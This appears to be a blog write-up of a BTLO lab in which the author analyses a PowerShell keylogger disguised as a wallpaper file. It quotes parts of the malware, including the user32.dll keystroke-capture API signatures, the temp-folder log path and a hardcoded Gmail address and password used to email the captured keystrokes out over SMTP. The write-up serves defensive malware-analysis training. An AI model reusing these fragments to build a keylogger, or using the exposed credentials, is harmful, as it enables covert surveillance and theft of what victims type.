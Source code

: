 ```yaml
---
layout: post
title: PowerShell Analysis - Keylogger
date: '2023-10-08 20:23:20 +0300'
cover: /img/cover_images/3.png
description: "A suspicious PowerShell script was found on one of our endpoints. Can you work out what it does?"
categories: [BTLO, Reverse Engineering]
tags: [BTLO, Text Editor]
---
```


## PowerShell Analysis - Keylogger
A suspicious PowerShell script was found on one of our endpoints. Can you work out what it does? 

##  What is the SHA256 hash value for the PowerShell script file? (1 points) 

```bash
❯ sha256sum HDWallpaperEngine.txt
e0b7a2ad2320ac32c262aeb6fe2c6c0d75449c6e34d0d18a531157c827b9754e
```

##  What email address is used to send and receive emails? (1 points) 
```bash
$From = "chaudhariparth454@gmail.com"
$Pass = "yjghfdafsd5464562!"
$To = "chaudhariparth454@gmail.com"
$Subject = "Keylogger Results"
```

##  What is the password for this email account? (2 points) 

```bash
$Pass = "yjghfdafsd5464562!"
```

##  What port is used for SMTP? (2 points) 

```bash
$SMTPPort = "587"
```

##  What DLL is imported to help record keystrokes? (2 points) 

```bash
#requires -Version 2
function Start-KeyLogger($Path="$env:temp\keylogger.txt") 
{
  # Signatures for API Calls
  $signatures = @'
[DllImport("user32.dll", CharSet=CharSet.Auto, ExactSpelling=true)] 
public static extern short GetAsyncKeyState(int virtualKeyCode); 
[DllImport("user32.dll", CharSet=CharSet.Auto)]
public static extern int GetKeyboardState(byte[] keystate);
[DllImport("user32.dll", CharSet=CharSet.Auto)]
public static extern int MapVirtualKey(uint uCode, int uMapType);
[DllImport("user32.dll", CharSet=CharSet.Auto)]
public static extern int ToUnicode(uint wVirtKey, uint wScanCode, byte[] lpkeystate, System.Text.StringBuilder pwszBuff, int cchBuff, uint wFlags);
'@
```
##  What directory is the generated txt file put in? (2 points) 

```bash
#requires -Version 2
function Start-KeyLogger($Path="$env:temp\keylogger.txt") 
```